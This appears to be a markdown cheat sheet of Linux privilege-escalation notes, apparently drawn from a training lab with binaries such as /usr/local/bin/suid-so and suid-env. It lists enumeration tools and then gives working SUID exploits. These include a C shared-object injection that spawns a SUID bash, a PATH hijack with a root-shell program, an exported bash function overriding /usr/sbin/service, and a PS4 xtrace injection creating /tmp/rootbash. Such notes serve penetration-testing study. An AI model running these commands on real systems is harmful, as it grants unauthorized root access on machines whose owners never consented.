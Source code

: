 
 * [Automation-Tools](Automation-Tools)
 * 
 * [Suid](Suid)

 ## Automation Tools
 
There are many scripts that you can execute on a linux machine which automatically find information weekpoint and many more 

- [LinPEAS - Linux Privilege Escalation Awesome Script](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

- [LinuxSmartEnumeration - Linux enumeration tools for pentesting and CTFs](https://github.com/diego-treitos/linux-smart-enumeration)

- [LinEnum - Scripted Local Linux Enumeration & Privilege Escalation Checks](https://github.com/rebootuser/LinEnum)

- [linux-exploit-suggester - Linux exploit-suggester & privilege Escalation](https://github.com/mzet-/linux-exploit-suggester)

- [linux-exploit-suggester2 - Linux exploit-suggester2 & privilege Escalation](https://github.com/jondonas/linux-exploit-suggester-2)

- [pspy - unprivileged Linux process snooping -                               ](https://github.com/DominicBreuker/pspy)





   


  ## Suid
 
 Enumeration
    
    find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
    find / -perm -u=s -type f 2>/dev/null
    find / -type f -perm -04000 -ls 2>/dev/null
        
        
Resource 
   
     https://gtfobins.github.io/
       
Shared Object Injection
  
    find / -type f -perm -04000 -ls 2>/dev/null
    strace <PATH=2>&1
       
       
TYPE COMMAND 
  
    strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
  
  
OUTPUT
 
         
         
## access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
## open("/etc/ld.so.cache", O_RDONLY)      = 3
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## open("/lib/libdl.so.2", O_RDONLY)       = 3
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## open("/usr/lib/libstdc++.so.6", O_RDONLY) = 3
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## open("/lib/libm.so.6", O_RDONLY)        = 3
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## open("/lib/libgcc_s.so.1", O_RDONLY)    = 3
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## open("/lib/libc.so.6", O_RDONLY)        = 3
## open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)


Exploit Shared Object Injection
   
   mkdir /home/user/.config
       
   Create C file Type Some Commands
       
    #include <stdio.h>
    #include <stdlib.h>

    static void inject()__attribute__((constructor));

    void inject() {
      system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
    }
   
 Complie

    gcc -shared -fpic -o /home/user/.config/libcalc.so /home/user/libcalc.c


 Run The Program
  
    /usr/local/bin/suid-so

Environment Variables
                
    env
    find / -type f -perm -04000 -ls 2>/dev/null
    /usr/local/bin/suid-env
    strings /usr/local/bin/suid-env
    echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0;}' > /tmp/service.c
    gcc /tmp/service.c -o /tmp/service
    export PATH=/tmp:$PATH
    print $PATH
    /usr/local/bin/suid-env
    function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
    export -f /usr/sbin/service
    /usr/local/bin/suid-env2



   
   evn
     
   This will not work on Bash versions 4.4 and above
  ''' 
   When in debugging mode, Bash uses the environment variable PS4 to display an extra prompt for debugging statements.
   ,,,
   Run the /usr/local/bin/suid-env2 executable with bash debugging enabled and the PS4 variable set to an embedded command which creates an SUID version of          /bin/bash:
 
      env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
      /tmp/rootbash -p
     
    





















